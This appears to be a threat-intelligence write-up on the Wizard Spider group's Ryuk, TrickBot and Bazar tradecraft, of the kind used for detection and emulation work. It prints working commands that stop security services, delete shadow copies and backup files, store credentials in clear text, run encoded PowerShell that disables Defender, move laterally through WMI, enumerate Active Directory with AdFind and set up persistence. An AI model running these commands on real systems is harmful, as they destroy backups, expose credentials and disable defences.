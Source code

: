 # Wizard Spider

## Features

1. Ryuk ransomware will modify the registry to maintain persistence HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run the value of is Ryuk executable path.

The ransomware will stop or disable the service by creating a kill.bat batch script, and then terminate some specific processes.

```bash
net stop avpsus /y  //Stop Kaspersky Update Service
net stop McAfeeDLPAgentService /y  //Stop McAfee DLP Agent Service
net stop mfewc /y  //Stop McAfee Web Control Service
net stop BMR Boot Service /y  //Stop BMR service
net stop NetBackup BMR MTFTP Service /y  //Stop NetBackup BMR boot service
sc config SQLTELEMETRY start= disabled  //Disable the Telemetry service for SQL Server
sc config SQLTELEMETRY$ECWDB2 start= disabled
sc config SQLWriter start= disabled  //Disable Volume Shadow Copy Service for SQL Server
sc config SstpSvc start= disabled  //Disable SSTP support service
taskkill /IM mspub.exe /F  //Terminate Microsoft Office processes
taskkill /IM mydesktopqos.exe /F
//Terminate the process of recording keyboard and mouse input and connecting to the network
taskkill /IM mydesktopservice.exe /F  //Terminate Oracle MyDesktop process
```

Then the ransomware will use the windows.bat batch script to make it more difficult for the infected host to recover the source file.

```bash
vssadmin Delete Shadows /all /quiet
//Delete shadow copies of all specified volumes and do not display messages at run time
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
//Specify the C volume to adjust the maximum storage space, then specify the storage volume as C, and finally specify the maximum space for storage shadow copies as 401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
//Adjust the maximum amount of space for the shadow copy of volume C on volume C
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
//Delete files according to their location and extension. q is quiet mode; s refers to all subdirectory files; f To turn off the function of user confirmation and forced deletion of files
del %0  //Delete the executing .bat script
```

2. The delivered TrickBot malware will modify the registry HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest the UseLogonCredential value is 1.Set the UseLogonCredential value to "1" to configure the Windows operating system to store credentials in clear text in memory, and then retrieve credentials by using the credential dump tool.

3. Loading Ryuk ransomware through Bazar will attempt to transverse execute malicious DLL files through WMI:wmic /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW".Also try to use when transverse:powershell -nop -exec bypass -EncodedCommand [Base64 string]，Download executable files and disable Windows Defender.

The malware then collects Active Directory information by downloading the adfind.exe application.

```bash
AdFind.exe -f "(objectcategory=computer)"  
AdFind.exe -f "(objectcategory=group)"  
AdFind.exe -f "(objectcategory=organizationalUnit)"  
AdFind.exe -f "(objectcategory=person)"  
AdFind.exe  -subnets -f "(objectCategory=subnet)"  
AdFind.exe  -sc trustdmp  
AdFind.exe -gcb -sc trustdmp
//Dump all trust objects
```

Variants of this malware also create scheduled tasks to maintain persistence.

```bash
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONSTART /TN jf0c /TR "'C:\Users\pagefilerpqy.exe'" /f
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONSTART /TN jf0c /TR "'C:\Users\pagefilerpqy.exe'" /f /RL HIGHEST
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONCE /ST 17:21:58 /TN 9T6ukfi6 /TR "'C:\Users\pagefilerpqy.exe'" /f
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONCE /ST 17:21:58 /TN 9T6ukfi6 /TR "'C:\Users\pagefilerpqy.exe'" /f /RL HIGHEST
//Set the running key to 9T6ukfi6
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V \"microsoft update\" /t REG_SZ /F /D "SCHTASKS /run /tn 9T6ukfi6"
```
